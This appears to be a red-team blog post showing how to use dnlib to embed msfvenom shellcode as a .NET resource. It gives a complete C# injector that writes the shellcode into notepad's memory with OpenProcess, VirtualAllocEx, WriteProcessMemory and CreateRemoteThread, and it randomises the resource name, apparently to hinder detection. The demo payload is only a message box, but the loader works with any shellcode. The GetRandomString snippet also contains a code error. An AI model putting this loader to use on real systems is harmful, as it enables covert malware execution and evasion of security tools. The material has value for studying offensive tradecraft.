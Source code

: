 ```yaml
---
title: "Embedding Resources with dnlib"
date: 2020-12-31T12:00:45Z
draft: false
authors:
    - RastaMouse
tags:
    - c#
    - .net
    - dnlib
---
```


### Intro

In this post, I'll demonstrate how dnlib can be used to add embedded resources to an assembly.

### Injector Template

I've chosen a process injection scenario - where our application will retrieve shellcode that's embedded within it and then inject it into a target process.

```c#
using System;
using System.Diagnostics;
using System.IO;
using System.Reflection;
using System.Runtime.InteropServices;

namespace DemoApp
{
    class Program
    {
        static void Main(string[] args)
        {
            var shellcode = GetEmbeddedResource("Shellcode");
            Inject(shellcode);
        }

        static byte[] GetEmbeddedResource(string resourceName)
        {
            var self = Assembly.GetExecutingAssembly();

            using (var rs = self.GetManifestResourceStream(resourceName))
            {
                if (rs != null)
                {
                    using (var ms = new MemoryStream())
                    {
                        rs.CopyTo(ms);
                        return ms.ToArray();
                    }
                }
                else
                {
                    return null;
                }
            }
        }

        static void Inject(byte[] shellcode)
        {
            if (shellcode == null)
            {
                Console.WriteLine("No shellcode found");
                return;
            }

            var notepad = Process.GetProcessesByName("notepad")[0];
            
            var hProcess = OpenProcess(
                0x001F0FFF,
                false,
                notepad.Id);

            var alloc = VirtualAllocEx(
                hProcess,
                IntPtr.Zero,
                (uint)shellcode.Length,
                0x1000 | 0x2000,
                0x40);

            WriteProcessMemory(
                hProcess,
                alloc,
                shellcode,
                (uint)shellcode.Length,
                out UIntPtr bytesWritten);

            CreateRemoteThread(
                hProcess,
                IntPtr.Zero,
                0,
                alloc,
                IntPtr.Zero,
                0,
                IntPtr.Zero);
        }

        [DllImport("kernel32.dll")]
        static extern IntPtr OpenProcess(
            int dwDesiredAccess,
            bool bInheritHandle,
            int dwProcessId);

        [DllImport("kernel32.dll")]
        static extern IntPtr VirtualAllocEx(
            IntPtr hProcess,
            IntPtr lpAddress,
            uint dwSize,
            uint flAllocationType,
            uint flProtect);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool WriteProcessMemory(
            IntPtr hProcess,
            IntPtr lpBaseAddress,
            byte[] lpBuffer,
            uint nSize,
            out UIntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(
            IntPtr hProcess,
            IntPtr lpThreadAttributes,
            uint dwStackSize,
            IntPtr lpStartAddress,
            IntPtr lpParameter,
            uint dwCreationFlags,
            IntPtr lpThreadId);
    }
}
```

This is rather self-explanatory, but let's walk through it briefly:

1. Get an emdedded resource by the name `Shellcode`.
2. Call the `Inject` method, passing in that shellcode.
3. If `shellcode` is `null` (because the embedded resource did not exist), print to the console and return.  Otherwise, find an instance of `notepad` and inject the shellcode into it.

If we compile and run this, we get the printed message as expected.

```text
C:\Temp>DemoApp.exe
No shellcode found
```

### Emdedding the Shellcode

This is remarkably easy to do.  For this example, I'll define some static shellcode in my dnlib console app.

```c#
// msfvenom -p windows/x64/messagebox EXITFUNC=thread -f csharp
static byte[] Shellcode = new byte[323] {
    0xfc,0x48,0x81,0xe4,0xf0,0xff,0xff,0xff,0xe8,0xd0,0x00,0x00,0x00,0x41,0x51,
    0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,
    0x8b,0x52,0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,0x50,0x3e,0x48,
    0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,
    0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,
    0x48,0x8b,0x52,0x20,0x3e,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x3e,0x8b,0x80,0x88,
    0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x6f,0x48,0x01,0xd0,0x50,0x3e,0x8b,0x48,
    0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x5c,0x48,0xff,0xc9,0x3e,
    0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,
    0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x03,0x4c,0x24,
    0x08,0x45,0x39,0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
    0x66,0x3e,0x41,0x8b,0x0c,0x48,0x3e,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x3e,
    0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,
    0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,
    0x59,0x5a,0x3e,0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,0x49,0xc7,0xc1,
    0x00,0x00,0x00,0x00,0x3e,0x48,0x8d,0x95,0x1a,0x01,0x00,0x00,0x3e,0x4c,0x8d,
    0x85,0x2b,0x01,0x00,0x00,0x48,0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x07,0xff,
    0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,
    0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,
    0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x48,0x65,0x6c,0x6c,0x6f,
    0x2c,0x20,0x66,0x72,0x6f,0x6d,0x20,0x4d,0x53,0x46,0x21,0x00,0x4d,0x65,0x73,
    0x73,0x61,0x67,0x65,0x42,0x6f,0x78,0x00 };
```

The module definition has a `Resources` property which we can simply add a new `Resource` item to.

```c#
var module = ModuleDefMD.Load(@"C:\Temp\DemoApp.exe");
module.Resources.Add(new EmbeddedResource("Shellcode", Shellcode));
module.Write(@"C:\Temp\DemoAppEmbedded.exe");
```

Executing this assembly successfully injects the shellcode into notepad.

![](/images/dnlib-embedded-resources/static-resource-name.png "Shellcode Resources")

### Dynamic Resource Name

We can also change the name of the resource to something random, rather than just "Shellcode".

This method will generate a pseudo-random string.

```c#
static string GetRandomString(int len)
{
    const string chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZ";

    return new string(Enumerable.Repeat(chars, len)
        .Select(s => s[new Random().Next(s.len)]).ToArray());
}
```

Our code can then be changed to:

```c#
var resourceName = GetRandomString(10);
module.Resources.Add(new EmbeddedResource(resourceName, Shellcode));
```

Now we have to update the call within `Main` of our target assembly to search for the correct resource name.  First, find the method.

```c#
var main = module.GetTypes()
    .FirstOrDefault(t => t.Name == "Program").Methods
    .FirstOrDefault(m => m.Name == "Main");
```

Inspecting the current instructions on Main, we can see that "Shellcode" is passed via the `ldstr` OpCode.

![](/images/dnlib-embedded-resources/main-body.png "Main Instructions")

With a string of comparable size, we can just overwrite the Operand.

```c#
main.Body.Instructions[1].Operand = resourceName;
```

Verify the changes in dnSpy and the assembly executes as previously.

![](/images/dnlib-embedded-resources/dnspy.png "dnSpy")